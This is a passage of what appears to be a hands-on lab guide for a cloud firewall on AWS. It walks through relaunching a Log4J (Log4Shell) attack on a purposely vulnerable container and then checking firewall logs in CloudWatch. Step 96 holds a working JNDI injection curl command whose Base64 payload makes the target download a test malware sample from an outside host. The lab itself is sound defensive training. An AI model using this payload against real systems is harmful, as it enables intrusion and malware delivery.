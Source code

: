 ![](https://lh4.googleusercontent.com/UqMcelwDqPiw9Z78GTOjAZMq2jjM4gWP1Tn6ydbHsV54ckD4tNJyPPe8Mb-moWsfTbuT1IcI1xi5pSUAsS7HE7mFWNlaCOKCluCgNEppmzX5s9Egdpq8Ez8qtjIGKc2_mbxOHFjWvVZBh-4jq9vONJw)

95. Commit status will change to ‘Pending’ and then ‘Success’

![](https://lh4.googleusercontent.com/5YFVro3b1fjIyK3flyHQuXZh8kpejcm4mqJhIUGxxJh1P-V1polTJz_XXa2gQQWo7goiojx3xATq7jiXWDfAOL7ZY1GpY8B34Q65oXIWgxAXnQa-IqnEf_kiEwdOPYPo9sFbZwII8TC-g5_tHRqUCAs)

## Relaunch Attack

96. Navigate to att-app-server SSH session and launch the attack again.

```
curl 10.0.0.10:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

97. You will get a “Hello, world!” message as a response indicating that the attack is successful.

![](https://lh5.googleusercontent.com/nFEEIa02sRhicmJFOl_pk-XQ3ZAI8AzJDKNVgFWCU7sMOnQcDRF9iv8UP5fPxPZVhehwRlZqUfcsBQDhXKIwQanRux1HluF9jky3NdkPQNpuyiUs8es5TLTNJYO1iqQNoNig_xjz6-WPhiHH_LtJhA)

98. Switch context to the **vul-app-server** SSH session and use the following commands to connect to the **vul-app-1 **container and view the /tmp directory. You will see that the vul-app server has been infected with malware.

```
sudo docker exec -it vul-app-1 /bin/sh
```

```
ls -alrt /tmp
```

![](https://lh5.googleusercontent.com/wDXixyTsMKEro1mx9hXN4snqToRVgFDSRDY5Vqj8r1LJvgKb4oxJqUEwhv1yfCqQRp7I2918YGw4wgYlMKVU3VKcYNsqivFmw6n_GOO6kw36n0G6f0jroR9vfO1aUVzdmChvKev_lbyuHodgi8oInzQ)

99. Verify the attack by checking the logs on CloudWatch. Navigate to the AWS Console browser tab, on the Search bar at the top of the page, type “cloudwatch” and select “CloudWatch” from the search results.
100. From the left menu, click on “Log groups” and from the list of Log groups, select “PaloAltoCloudNGFW”.

![](https://lh4.googleusercontent.com/NhHMFHA560c1XFo2XBLLESiqa16YBqh51v0F6AjvDApCP19vXeiIrR5UMtTm3G692Ox30bOCyj7yFeAdnxyRl-BRIlUi4FFXnSTsYOimRgX0wNkk-y-1WFCOb3Lm3Et59lJ8RYE1urcoYbG7lzfFM5w)

101. Open the TRAFFIC log file and you would see the sequence of a successful Log4J attack. Sessions on port 8080, 1389 and 8888.

![](https://lh5.googleusercontent.com/8hMPemMAJcDB2L1iBgOJw3zytcA4Hd9wBN9rK9vipv43xhy9L9c_ozIezHEonGVfa6g5KvNBkO1_WeDwX-GOJp_-RfjZjBCox75n2cWFtggQ_QFwswsDddk7qtvfKgutIzRNmoWRdPrjVSen-5ujoLA)

![](https://lh3.googleusercontent.com/0s3yG7299fXftitIBqgITrApBn15kw1-RLYvQMJo60tF7-DM_pMgtf7Hlfi-6Vrj9f-meCjS3ijqqZ6CDFFuiwyn00Bf_7JtQenSB_8AaW-Wn9V5E1LPDcnnso9TJxd2WrZhUTDlH10uK5CdO9i2Yls)

## Enable Best Practice Security profiles

To secure the East-West traffic once again, you can update the Security Profiles on the Rulestack back to _Best Practice_ and relaunch the attack. This time the attack will be blocked by CloudNGFW.
